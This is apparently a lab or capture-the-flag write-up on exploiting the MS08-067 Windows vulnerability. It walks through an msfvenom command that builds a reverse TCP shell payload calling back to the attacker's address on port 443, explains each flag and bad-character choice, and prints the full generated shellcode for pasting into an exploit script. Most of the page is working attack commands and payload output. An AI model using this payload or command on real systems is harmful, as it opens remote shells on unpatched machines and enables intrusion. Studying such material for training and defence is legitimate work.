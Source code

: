 # MS08-067


Reference:
https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN

![image](https://user-images.githubusercontent.com/66146701/199320162-acc77a25-a1d5-4b1b-9ac3-27094abbbf42.png)

### Shellcode Generation

To make the shellcode, We will use `msfvenom`. 

```
-p windows/shell_reverse_tcp - This will connect back to me with a shell.
    
LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread - defining the variables for the payload - my ip, the port, and how to exit.

-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.

-f py - Output in python format.

-v shellcode - Have the code set the variable shellcode, instead of the default, buf. I want this to match what it’s called in the code I’m using.

-a x86 and --platform windows - Describing the environment I’m attacking.
```


<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
</code></pre></div></div>

<p>Will take this shellcode into the script, and paste it in replacing the default.</p>


